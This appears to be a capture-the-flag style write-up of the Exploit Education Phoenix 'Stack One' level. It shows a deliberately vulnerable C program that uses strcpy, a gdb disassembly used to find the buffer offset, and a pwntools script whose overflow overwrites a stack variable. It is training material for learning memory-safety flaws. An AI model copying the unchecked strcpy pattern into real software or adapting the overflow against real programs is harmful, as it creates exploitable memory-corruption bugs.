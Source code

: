 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Stack One"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

This code uses **strcpy** function which is dangerous because the source size could be more than destination size.

The only difference from this level and the previous one is that it requires **changeme** to be set to a specific value **0x496c5962**.

Now we can use gdb:

```
$ gdb -q /opt/phoenix/amd64/stack-one
Reading symbols from stack-one...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
   0x000000000040066d <+0>:	push   rbp
   0x000000000040066e <+1>:	mov    rbp,rsp
   0x0000000000400671 <+4>:	sub    rsp,0x60
   0x0000000000400675 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400678 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x000000000040067c <+15>:	mov    edi,0x400750
   0x0000000000400681 <+20>:	call   0x4004c0 <puts@plt>
   0x0000000000400686 <+25>:	cmp    DWORD PTR [rbp-0x54],0x1
   0x000000000040068a <+29>:	jg     0x4006a0 <main+51>
   0x000000000040068c <+31>:	mov    esi,0x4007a0
   0x0000000000400691 <+36>:	mov    edi,0x1
   0x0000000000400696 <+41>:	mov    eax,0x0
   0x000000000040069b <+46>:	call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:	mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:	add    rax,0x8
   0x00000000004006af <+66>:	mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:	mov    rsi,rdx
   0x00000000004006b9 <+76>:	mov    rdi,rax
   0x00000000004006bc <+79>:	call   0x4004a0 <strcpy@plt>
   .....
```

We can see that  **buffer** is at **rbp-0x50** (main+69) and **changeme** is at **rbp-0x10** (main+51) so we need 64 characters to fill this gap then we can overwrite **changeme** value.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x496c5962)

print(buff)
```

```
$ /opt/phoenix/amd64/stack-one $(python solve.py)
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```



